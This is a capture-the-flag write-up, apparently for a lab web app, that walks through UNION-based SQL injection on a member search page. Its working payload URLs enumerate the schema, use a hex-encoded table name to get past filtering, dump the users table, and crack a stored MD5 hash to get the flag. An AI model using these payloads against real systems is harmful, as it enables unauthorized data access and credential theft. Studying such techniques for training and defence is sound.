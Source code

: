 In the http://192.168.1.32/?page=member page, there is a HTML form described as follow:
<form action="#" method="GET">
  <input type="hidden" name="page" value="member"/>
  <input type="text" name="id" style="width:100%;">
  <br />
  <input type="submit" value="Submit" name="Submit">
</form>

The title of the page is: "Search member by ID".
Try with different IDs and found out that with id=5, there is a user that is call GetThe Flag.
There are good reasons to think the flag is located somewhere in the member table at the id 5.

Step 1: Test Number of Columns: Start by testing if the UNION SELECT works with just numbers.
http://192.168.1.32/?page=member&id=5%20UNION%20SELECT%201%20--%20&Submit=Submit#
http://192.168.1.32/?page=member&id=5%20UNION%20SELECT%201,2%20--%20&Submit=Submit#
http://192.168.1.32/?page=member&id=5%20UNION%20SELECT%201,2,3%20--%20&Submit=Submit#
It will indicate the number of columns that the query expects.

Step 2: Try Simple SQL Injection to Extract the Database Name:
Assuming that the number of columns is 2 (based on the previous trial), attempt to get the database name with the following:
http://192.168.1.32/?page=member&id=5%20UNION%20SELECT%201,database()%20--%20&Submit=Submit#
This should return the current database name in the second column.

Step 3: Try Table Name Extraction:
If the database name is successfully extracted, now we can proceed to extract the table names:
http://192.168.1.32/?page=member&id=5%20UNION%20SELECT%201,table_name%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20--%20&Submit=Submit#
This should return the names of the tables in the current database if the SQL query is correct.

Step 4: Extract Columns from a Table:
Try to extract the columns from table users:
http://192.168.1.32/?page=member&id=5%20UNION%20SELECT%201,column_name%20FROM%20information_schema.columns%20WHERE%20table_name=users%20--%20&Submit=Submit#
Unknown column 'users' in 'where clause'

It seems this step doesn't work because there might be a filtering mechanisms to prevent SQL injection.

The following payload use a HEX representation for the string users to avoid special character issues: users => 0x7573657273
http://192.168.1.32/?page=member&id=5%20UNION%20SELECT%201,column_name%20FROM%20information_schema.columns%20WHERE%20table_name=0x7573657273%20--%20&Submit=Submit#
I can found that there is 8 columns in the "users" table: user_id, first_name, last_name, town, country, planet, Commentaire, countersign

Construct the payload to retrieve all column data for the user with user_id=5:
http://192.168.1.32/?page=member&id=5%20UNION%20SELECT%201,CONCAT_WS(CHAR(32,58,32),user_id,first_name,last_name,town,country,planet,Commentaire,countersign)%20FROM%20users%20WHERE%20user_id=5%20--%20&Submit=Submit#

Found out that the column "Commentaire" contain an instruction: "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
And the column "sountersign" contain an encrypted string "5ff9d0165b4f92b14994e5c685cdce28"

Decrypt the original password using https://hashes.com/en/decrypt/hash
5ff9d0165b4f92b14994e5c685cdce28:FortyTwo:MD5

SHA256 on the lower case string "fortytwo" using https://emn178.github.io/online-tools/sha256.html
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

A way to fix this vulnerability would be to sanitize the input to avoid special characters in the request.